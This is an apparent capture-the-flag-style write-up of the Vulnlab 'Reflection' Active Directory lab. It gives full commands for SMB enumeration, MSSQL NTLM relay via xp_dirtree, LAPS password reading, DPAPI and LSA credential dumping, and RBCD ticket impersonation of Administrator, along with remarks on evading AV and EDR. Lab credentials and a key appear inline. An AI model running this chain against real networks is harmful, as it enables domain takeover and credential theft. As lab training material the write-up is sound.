+++
title = 'Reflection Vulnlab'
date = 2024-11-05T03:42:48-05:00
draft = false
+++

In this part of Red Team series we will talk about Reflection chain from Vulnlab.\
In this chain exist some cool attacks such abusing GenericAll ACL, LAPS, NTLM Relaying and DPAPI dumping. Also, there is MSSQL enumeration.

First of let's start from the nmap scan to understand what kind of services/ports are open.

```sql
nmap -sC -sV -T4 -oN nmap.txt 10.10.228.197-199

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 03:47 EST
Nmap scan report for 10.10.228.197
Host is up (0.11s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-05 08:48:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-11-05T08:49:05+00:00; -1s from scanner time.
| ms-sql-ntlm-info:
|   10.10.228.197:1433:
|     Target_Name: REFLECTION
|     NetBIOS_Domain_Name: REFLECTION
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: reflection.vl
|     DNS_Computer_Name: dc01.reflection.vl
|     DNS_Tree_Name: reflection.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-05T08:45:00
|_Not valid after:  2054-11-05T08:45:00
| ms-sql-info:
|   10.10.228.197:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: dc01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-05T08:48:24+00:00
|_ssl-date: 2024-11-05T08:49:05+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=dc01.reflection.vl
| Not valid before: 2024-11-04T08:42:07
|_Not valid after:  2025-05-06T08:42:07
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-11-05T08:48:25
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Nmap scan report for 10.10.228.198
Host is up (0.12s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-05T08:42:32
|_Not valid after:  2054-11-05T08:42:32
| ms-sql-ntlm-info:
|   10.10.228.198:1433:
|     Target_Name: REFLECTION
|     NetBIOS_Domain_Name: REFLECTION
|     NetBIOS_Computer_Name: MS01
|     DNS_Domain_Name: reflection.vl
|     DNS_Computer_Name: ms01.reflection.vl
|     DNS_Tree_Name: reflection.vl
|_    Product_Version: 10.0.20348
| ms-sql-info:
|   10.10.228.198:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-11-05T08:49:06+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: MS01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: ms01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-05T08:48:25+00:00
|_ssl-date: 2024-11-05T08:49:06+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=ms01.reflection.vl
| Not valid before: 2024-11-04T08:42:01
|_Not valid after:  2025-05-06T08:42:01
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-11-05T08:48:31
|_  start_date: N/A

Nmap scan report for 10.10.228.199
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-05T08:49:05+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=ws01.reflection.vl
| Not valid before: 2024-11-04T08:43:03
|_Not valid after:  2025-05-06T08:43:03
| rdp-ntlm-info:
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: ws01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2024-11-05T08:48:25+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-11-05T08:48:36
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Post-scan script results:
| clock-skew:
|   -1s:
|     10.10.228.197
|_    10.10.228.199
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 73.12 seconds
```

The good option is saving all FQDN names of the machines to /etc/hosts file. So, mine looks like that.

```sql
10.10.228.197   dc01.reflection.vl dc01 reflection.vl
10.10.228.198   ms01.reflection.vl ms01
10.10.228.199   ws02.reflection.vl ws01
```
\
Let's enumerate smb shares first of all. As we can see in all machines SMB is exist. So probably good idea starting from the SMB shares.

For the first enum **netexec** the best option.

```c
netexec smb 10.10.228.197-199 -u '' -p '' --shares
```



\
As you can see the null signing does not work, but we have a user **guest** and if we are lucky enough the guest can enumerate shares without password.

Also keep in mind that in **all** machines even in DC **SMB signing** does not exist. Maybe there is possible NTLM Relays.

```c
netexec smb 10.10.228.197-199 -u 'guest' -p '' --shares
```



\
We are lucky enough to enumerate shares on MS01 machine using quest user. There are some shares readable for us. The unique one is staging share. Let's start from that share.

\
Using **impacket-smbclient** we can perform enumeration.

```sql
impacket-smbclient reflection.vl/guest@ms01 -no-pass
```



\
Interseting, in that share we found staging_db.conf file and it contains credential of user web_staging and it seems for Database.

On MS01 machine we have MSSQL. So, probably this cred for the MSSQL instance.


```sql
impacket-mssqlclient reflection.vl/web_staging:Washroom510@ms01
```


\
As you can see we logged in to mssql, now it is time to enumerate more!

Actually we can use the help command and get some interesting, comfortable commands, which can help perform enumeration



\
First off the most interesting thing on mssql in my opinion is **xp_cmdshell**, which will execute the cmd commands and return output of the command.



\
But we do not have permissions to execute xp_cmdshell. The good options is checking the databases and tables, respectively.


\
Interesting enough, we have database staging, which is not the default db in mssql. Let's enumerate that one.



\
We found some creds too, but it is not looks like domain users, so let's enumerate more.

Remember that in **every machine** SMB signing is turned off. So, we can perform NTLM Relay attacks. For that attack the **xp_dirtree** is awesome options, because we can use the UNC Path to our machine and got NTLM hash of the user, and perform relay through **impacket-ntlmrelayx** tool.





As you can see we got NTLMv2 hash of svc_web_staging user. Not let's try to relay it to DC.

### Note that IP addresses of machines are changed

```sql
impacket-ntlmrelayx -smb2support -socks -socks-port 1080 -t 10.10.214.101
```


\
We started the impacket-ntlmrelay and we need to wait the connection to our machine. As the target we can choose the DC01.

```sql
exec xp_dirtree '\\10.8.0.238\something';
```


As you can see we perform relay attack and the authenticating against DC01 is succeed.

Also the socks proxy is ready on port 1080.

```sql
proxychains -q smbclient -U reflection/svc_web_staging -L \\\\10.10.214.101
```


\
As you can see we can perform enumeration of shares in DC01 machine. There is also one unique share, whish is staging. Let's enumerate that share deeper.

```sql
proxychains -q impacket-smbclient reflection/svc_web_staging@10.10.214.101 -no-pass
```


\
Awesome, we have a password for user web_prod. In my opinion this creds for mssql instance on DC01 machine. Let's try this out.

```sql
impacket-mssqlclient reflection.vl/web_prod:Tribesman201@10.10.214.101
```



\
We successfully logged in to MSSQL instance on DC01 and let's enumerate databases;



\
Finally we found some domain users. Now let's collect the bloodhound information and enumerate AD ACLs.

The interestint moment about which version of bloodhound is more steltheir. I have tested on some environments, where AV and EDR exist and the netexec version is more stelthier than bloodhound.py. So, in this moment we will use the netexec's bloodhound.

```c
netexec ldap 10.10.214.101 -u abbie.smith -p 'CMe1x+nlRaaWEw' --bloodhound -c All --dns-tcp --dns-server 10.10.214.101
```



\
As you can see the data saved in .zip format. Let's start the neo4j and upload an archive.



\
While enumeration on bloodhound we can find that abbie.smith has ACL GenericAll over MS01 machine. What does it mean? It means that we have all access rights over that object. So we can perform RBCD (Resource Based Constrained Delegation), or make ShadowCredential attack. For the RBCD MachineAccountQuota is 0 which means we can not creat a computer account. 



\
There is exist LAPS policy. GenericAll also gives access to read LAPS password. Let's try to perform this attack.

```c
python3 /opt/pyLAPS/pyLAPS.py -u abbie.smith -p 'CMe1x+nlRaaWEw' -d reflection.vl --dc-ip 10.10.214.101
```



\
So we successfully got password of local Administrator user in MS01 machine. Now we can use evil-winrm or psexec and try to dump the LSASS process.

```sql
evil-winrm -i ms01 -u Administrator -p 'H447.++h6g5}xi'
```


\
Great! now we can upload mimikatz, but for sure mimikatz will be blocked by AV or even more EDR solutions. So, we need to execute mimikatz in memory and use such kind of techniques. So, let's get a C2 session. In this example I will use metasploit and will generate payload using msfvenom. Using a shellcode loader I will get a beacon session.



\
But after dumping lsass process we did not find anything interesting and we finally recall about DPAPI. Using the option of netexec we got creds for another user.

```c
netexec smb ms01 -u Administrator -p 'H447.++h6g5}xi' --local-auth --dpapi
```



\
We got creds of Georgia.Price user. Let's enumerate more.


\
So this user has GenericAll over WS01 machine. In that machies LAPS does not exist, so what can we do? Of course RBCD. Remember that MS01 pwned and we can use that machine for RBCD.

```c
impacket-rbcd reflection.vl/georgia.price:'DBl+5MPkpJg5id' -dc-ip 10.10.214.101 -delegate-from MS01$ -delegate-to WS01$ -action write
```



\
RBCD successfully completed now it is time to get Services Ticket as domain Administator and compromise the WS01 machine.

```c
impacket-getST reflection.vl/'MS01$' -dc-ip dc01.reflection.vl -aesKey 64cfd5762890faa03300f588488cff43e080f49be43e410c8c62d7acb502a5a1 -spn 'cifs/ws01.reflection.vl' -impersonate Administrator
```



\
Awesome the ticket is saved and now we can without any issues perform memory dumping one more time.

```c
export KRB5CCNAME=Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
netexec smb ws01 -u Administrator -k --use-kcache --lsa
```

